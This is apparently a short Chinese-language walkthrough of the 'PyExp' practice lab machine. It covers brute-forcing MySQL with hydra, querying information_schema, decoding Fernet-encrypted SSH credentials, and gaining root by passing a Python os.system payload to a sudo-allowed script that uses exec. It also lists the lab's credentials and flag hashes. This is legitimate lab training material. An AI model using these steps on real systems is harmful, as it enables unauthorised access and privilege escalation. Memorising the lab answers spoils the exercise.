

### PyExp

這台看起來蠻酷的 只有開3306(?


奇怪的1337是SSH


第一條進入的路徑是用hydra爆MySQL的密碼出來 但因為太久了 為了節省時間所以放其他人的圖


用`root:prettywoman`這組憑證可以登入MySQL


先找Schema_name data看起來很可疑
`SELECT schema_name FROM information_schema.schemata;`


對他找下去可以翻到一個table
`SELECT table_name FROM information_schema.tables WHERE table_schema='data';`


翻column可以找到兩個東西
`SELECT column_name FROM information_schema.columns WHERE table_name='fernet';`


最後找這兩個column可以翻到兩組神奇的東西


把這兩組丟到 https://asecuritysite.com/encryption/ferdecode 就能得到一組憑證```lucy:wJ9`"Lemdv9[FEw-```


拿這組憑證可以登入剛剛的SSH


#### 提權

`sudo -l`發現可以用root執行`/opt/exp.py` 打開來看發現會把輸入的東西丟到一個叫`exec`的函數 [查了一下](https://clay-atlas.com/blog/2019/07/30/%E5%9C%A8-python-%E7%A8%8B%E5%BC%8F%E4%B8%AD%E5%8B%95%E6%85%8B%E5%9F%B7%E8%A1%8C%E7%A8%8B%E5%BC%8F%E7%A2%BC-%E4%BD%BF%E7%94%A8-exec-%E5%B0%87-string-%E8%AE%8A%E6%88%90%E7%A8%8B/)發現會把輸入當作程式碼執行


直接輸入`import os;os.system("/bin/bash")`就能拿到root的shell了


#### Proof

local.txt
`b20eaf77ebaa3cff482908beba7bc672`


proof.txt
`a77f41ed360e0c1d0db788d8f9d2612b`
